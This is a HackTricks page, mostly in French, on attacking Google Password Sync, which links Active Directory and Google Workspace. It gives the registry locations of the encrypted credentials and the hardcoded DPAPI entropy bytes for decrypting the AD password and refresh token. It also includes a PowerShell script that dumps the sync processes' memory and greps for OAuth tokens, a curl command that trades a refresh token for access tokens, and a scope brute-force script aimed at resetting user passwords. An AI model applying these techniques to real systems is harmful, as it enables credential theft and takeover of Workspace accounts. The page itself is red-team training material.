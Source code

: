 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ceci est le binaire et le service que Google propose pour **maintenir synchronisés les mots de passe des utilisateurs entre l'AD** et Workspace. Chaque fois qu'un utilisateur change son mot de passe dans l'AD, il est défini sur Google.

Il est installé dans `C:\Program Files\Google\Password Sync` où vous pouvez trouver le binaire `PasswordSync.exe` pour le configurer et `password_sync_service.exe` (le service qui continuera à fonctionner).

### GPS - Configuration

Pour configurer ce binaire (et service), il est nécessaire de **lui donner accès à un principal Super Admin dans Workspace** :

* Se connecter via **OAuth** avec Google et ensuite il **stockera un jeton dans le registre (chiffré)**
* Disponible uniquement sur les contrôleurs de domaine avec interface graphique
* Fournir des **identifiants de compte de service de GCP** (fichier json) avec des permissions pour **gérer les utilisateurs de Workspace**
* Très mauvaise idée car ces identifiants n'expirent jamais et pourraient être mal utilisés
* Très mauvaise idée de donner un accès SA sur Workspace car le SA pourrait être compromis dans GCP et il serait possible de pivoter vers Workspace
* Google l'exige pour les contrôles de domaine sans interface graphique
* Ces identifiants sont également stockés dans le registre

Concernant l'AD, il est possible d'indiquer d'utiliser le **contexte d'applications actuel, anonyme ou des identifiants spécifiques**. Si l'option d'identifiants est sélectionnée, le **nom d'utilisateur** est stocké dans un fichier sur le **disque** et le **mot de passe** est **chiffré** et stocké dans le **registre**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Notez que [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) est capable de détecter **GPS**, d'obtenir des informations sur la configuration et **même de déchiffrer le mot de passe et le jeton**.
{% endhint %}

Dans le fichier **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**, il est possible de trouver une partie de la configuration comme le **`baseDN`** de l'AD configuré et le **`nom d'utilisateur`** dont les identifiants sont utilisés.

Dans le registre **`HKLM\Software\Google\Google Apps Password Sync`**, il est possible de trouver le **jeton de rafraîchissement chiffré** et le **mot de passe chiffré** pour l'utilisateur AD (le cas échéant). De plus, si au lieu d'un jeton, des **identifiants SA** sont utilisés, il est également possible de les trouver chiffrés à cette adresse de registre. Les **valeurs** à l'intérieur de ce registre ne sont accessibles que par les **Administrateurs**.

Le **mot de passe** chiffré (le cas échéant) se trouve dans la clé **`ADPassword`** et est chiffré à l'aide de l'API **`CryptProtectData`**. Pour le déchiffrer, vous devez être le même utilisateur que celui qui a configuré la synchronisation des mots de passe et utiliser cette **entropie** lors de l'utilisation de **`CryptUnprotectData`** : `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Le jeton chiffré (le cas échéant) se trouve dans la clé **`AuthToken`** et est chiffré à l'aide de l'API **`CryptProtectData`**. Pour le déchiffrer, vous devez être le même utilisateur que celui qui a configuré la synchronisation des mots de passe et utiliser cette **entropie** lors de l'utilisation de **`CryptUnprotectData`** : `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
De plus, il est également encodé en base32hex avec le dictionnaire **`0123456789abcdefghijklmnopqrstv`**.

Les valeurs d'entropie ont été trouvées en utilisant l'outil. Il a été configuré pour surveiller les appels à **`CryptUnprotectData`** et **`CryptProtectData`** et ensuite l'outil a été utilisé pour lancer et surveiller `PasswordSync.exe` qui déchiffrera le mot de passe configuré et le jeton d'authentification au début et l'outil affichera **les valeurs pour l'entropie utilisée** dans les deux cas :

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Notez qu'il est également possible de voir les **valeurs déchiffrées** dans l'entrée ou la sortie des appels à ces API également (au cas où à un moment donné Winpeas cesserait de fonctionner).

Dans le cas où la synchronisation des mots de passe a été **configurée avec des identifiants SA**, elle sera également stockée dans des clés à l'intérieur du registre **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Tout comme avec GCPW, il est possible de dumper la mémoire du processus de `PasswordSync.exe` et des processus `password_sync_service.exe` et vous pourrez trouver des jetons de rafraîchissement et d'accès (s'ils ont déjà été générés).\
Je suppose que vous pourriez également trouver les identifiants configurés de l'AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Génération de jetons d'accès à partir de jetons d'actualisation

En utilisant le jeton d'actualisation, il est possible de générer des jetons d'accès en utilisant celui-ci ainsi que l'ID client et le secret client spécifiés dans la commande suivante :
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Notez qu'il n'est pas possible de demander un scope pour le token d'accès même en ayant un refresh token, car vous ne pouvez demander que les **scopes pris en charge par l'application où vous générez le token d'accès**.

De plus, le refresh token n'est pas valide dans toutes les applications.
{% endhint %}

Par défaut, GPS n'aura pas accès en tant qu'utilisateur à tous les scopes OAuth possibles, donc en utilisant le script suivant, nous pouvons trouver les scopes qui peuvent être utilisés avec le `refresh_token` pour générer un `access_token` :

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Et voici le résultat que j'ai obtenu au moment de l'écriture :
```
https://www.googleapis.com/auth/admin.directory.user
```
Ce qui est le même que celui que vous obtenez si vous n'indiquez aucun champ.

{% hint style="danger" %}
Avec ce champ, vous pourriez **modifier le mot de passe d'un utilisateur existant pour élever les privilèges**.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

